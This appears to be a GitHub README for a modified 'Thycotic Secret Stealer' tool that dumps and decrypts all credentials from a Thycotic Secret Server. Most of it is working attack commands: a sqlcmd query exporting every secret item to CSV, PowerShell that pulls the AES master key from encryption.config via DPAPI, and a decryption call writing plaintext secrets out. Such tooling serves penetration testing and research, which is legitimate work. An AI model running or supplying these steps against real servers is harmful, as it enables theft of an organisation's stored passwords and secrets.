 # Modified-Thycotic-Secret-Stealer for v10.8+ with DPAPI Integration

Quick modification of Thycotic Secret Stealer to pull AES master Key from DPAPI and then perform Decryption offline and spit output to CSV file.

# SQLCMD
The following SQLCMD will pull all the items from the Database
```
sqlcmd -d SecretServer -q "select s.SecretName, f.SecretFieldName, s.[Key], i.ItemValue from tbSecretItem as i JOIN tbSecret as s ON (s.SecretID = i.SecretID) JOIN tbSecretField as f on (i.SecretFieldID = f.SecretFieldID)" -W -w 1024 -s "," -o Data.csv
```

# Pull Master Key off Thycotic Server

```
$masterKeys = Get-MasterKeysv104 -path C:\inetpub\wwwroot\SecretServer\encryption.config
$masterkeys.IsEncryptedWithDPAPI # should return true
$decrypted = [Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($masterkeys.key256), $null, 'LocalMachine')
[Text.Encoding]::ASCII.GetString($decrypted)
```

# Decrypt and Spit to CSV
```
Invoke-SecretDump -SecretServerDataPath <PATH TO .csv> -MasterKey <AES MASTER KEY>
```
# References
Big thanks to curi0usJack and his original post here: 
https://www.trustedsec.com/blog/thycotic-secret-server-offline-decryption-methodology/


